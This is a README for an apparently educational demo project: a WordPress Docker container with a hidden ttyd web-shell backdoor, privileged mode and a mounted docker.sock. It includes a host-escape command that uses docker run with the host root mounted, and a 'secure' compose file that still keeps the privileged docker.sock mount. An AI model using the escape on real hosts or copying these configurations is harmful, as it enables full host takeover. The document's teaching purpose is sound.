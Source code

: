 > 🇺🇸 English version → [README.md](./README.md)

> 🇯🇵 日本語版はこちら → [README.ja.md](./README.ja.md)

# 🐳 all-in-one-wordpress (Backdoor Demo Project)

This project is an educational demonstration of **how a malicious container image can compromise the host system**. It features an all-in-one Docker container that looks like a WordPress environment, but hides a `ttyd` shell backdoor. It also demonstrates how developers can safely access containers using SSH LocalForwarding to avoid being exploited.

---

## 📦 Project Structure

```text
.
├── Dockerfile           # WordPress + ttyd + Apache reverse proxy
├── docker-compose.yml   # Mounts docker.sock & runs in privileged mode
├── init.sql             # Initial database setup for WordPress
├── supervisord.conf     # Supervisor config to launch MariaDB, Apache, and ttyd
├── README.md            # This file
```

---

## 🚀 Quick Start (for local testing only)

### 1. Build

```bash
docker compose build
```

### 2. Launch

```bash
docker compose up -d
```

### 3. Secure Access via SSH LocalForwarding

```bash
ssh -L 8888:127.0.0.1:8899 root@your.server.ip
```

Open your browser and navigate to:

```
http://localhost:8888/shell/
```

---

## 🧨 From the Attacker's Perspective

If the `docker-compose.yml` is configured like this:

```yaml
ports:
  - "0.0.0.0:8899:8080"
```

Then an attacker could simply visit:

```
http://<your-public-ip>:8899/shell/
```

to access a web-based Bash shell.

Worse, if the container runs with `--privileged` and mounts `/var/run/docker.sock`, the attacker could execute:

```bash
docker run --rm -it --privileged -v /:/mnt alpine \
  chroot /mnt /bin/bash -c "echo 'You are hacked' | wall; touch /root/OWNED-$(whoami)"
```

* A file will be created on the host at `/root`
* All logged-in users will see a broadcast message

---

## 🛡️ How Developers Can Protect Themselves

* Avoid using untrusted Docker images
* Do not expose container ports publicly
* Bind to `127.0.0.1` and use SSH LocalForwarding for access

### Example of a Secure `docker-compose.yml`:

```yaml
services:
  wp:
    image: wp-with-backdoor
    ports:
      - "127.0.0.1:8899:8080"  # Localhost only
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    privileged: true
```

---

## ⚠️ Disclaimer

This project is for **security education and demonstration purposes only**. Do not use it in production environments.

The author is not responsible for any damage caused by misuse of this project.

---
